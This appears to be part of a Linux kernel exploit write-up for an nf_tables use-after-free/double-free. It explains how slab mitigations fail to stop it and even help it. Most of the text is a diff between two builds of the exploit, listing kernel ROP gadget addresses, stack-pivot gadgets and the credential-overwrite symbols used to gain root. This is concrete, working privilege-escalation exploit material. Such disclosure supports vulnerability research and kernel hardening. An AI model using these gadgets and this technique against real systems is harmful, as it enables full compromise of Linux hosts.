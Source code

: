```c
// ...
```
The variable-sized object cache separation doesn't hinder our exploit since the vulnerable object (`struct nft_set`) and target objects for exploit (`struct msg_msg`, `struct msg_msgseg`, `struct pipe_buffer`) are all allocated with variable size.

Furthermore, the slab freelist protection of mitigation instance can't prevent double free and unaligned free on freelist head, but ironically stabilizes our exploit (refer [Abusing `CONFIG_SLAB_FREELIST_HARDENED` mitigation to aid exploitation section of novel-techniques.md](./novel-techniques.md#abusing-config_slab_freelist_hardened-mitigation-to-aid-exploitation)).

```diff
# diff exploit/lts-6.1.31/exploit.c exploit/mitigation-6.1/exploit.c 
908c908
<     printf("[*] overlapped by msg_msgseg : size %d\n", ret);
---
>     //printf("[*] overlapped by msg_msgseg : size %d\n", ret);
1039,1048c1039,1048
< #define ANON_PIPE_BUF_OPS  0xffffffff82a04ac0
< //0xffffffff818ca79b : push rsi ; jmp qword ptr [rsi + 0x39]
< #define PIVOT_GADGET 0xffffffff818ca79b
< //0xffffffff81404820 : pop rsp ; ret
< #define PIVOT_GADGET2 0xffffffff81404820
< 
< #define PREPARE_KERNEL_CRED 0xffffffff811139d0
< #define COMMIT_CREDS 0xffffffff811136f0
< #define SWITCH_TASK_NAMESPACES 0xffffffff81111c80
< #define FIND_TASK_BY_VPID 0xffffffff8110a0d0
---
> #define ANON_PIPE_BUF_OPS 0xffffffff82a057c0
> //0xffffffff818d557b : push rsi ; jmp qword ptr [rsi + 0x39]
> #define PIVOT_GADGET  0xffffffff818d557b
> //0xffffffff811cc910 : pop rsp ; ret
> #define PIVOT_GADGET2 0xffffffff811cc910
> 
> #define PREPARE_KERNEL_CRED 0xffffffff81115030 
> #define COMMIT_CREDS 0xffffffff81114d50
> #define SWITCH_TASK_NAMESPACES 0xffffffff811132e0
> #define FIND_TASK_BY_VPID 0Xffffffff8110b730 
1050,1054c1050,1054
< #define POP_RDI_RET 0xffffffff8102764d
< #define POP_RSI_RET 0xffffffff810fb7dd
< #define POP_RCX_RET 0xffffffff811e3633
< //0xffffffff818aaa46 : push rax ; jmp qword ptr [rsi - 0x7f]
< #define PUSH_RAX_JMP_QPTR_RSI 0xffffffff818aaa46 
---
> #define POP_RDI_RET 0xffffffff81082fd0
> #define POP_RSI_RET 0xffffffff811e7f5e
> #define POP_RCX_RET 0xffffffff811080e3
> //0xffffffff818b5486 : push rax ; jmp qword ptr [rsi - 0x7f]
> #define PUSH_RAX_JMP_QPTR_RSI 0xffffffff818b5486
1057,1058c1057,1058
< #define INIT_TASK 0xffffffff836159c0
< #define INIT_NSPROXY 0xffffffff83661680
---
> #define INIT_TASK 0xffffffff83615a40
> #define INIT_NSPROXY 0xffffffff83662a40
```
The diff result between `lts-6.1.31` exploit and `mitigation-6.1` exploit shows directly that there are no noticeable changes on exploits except kernel image-specific offsets.
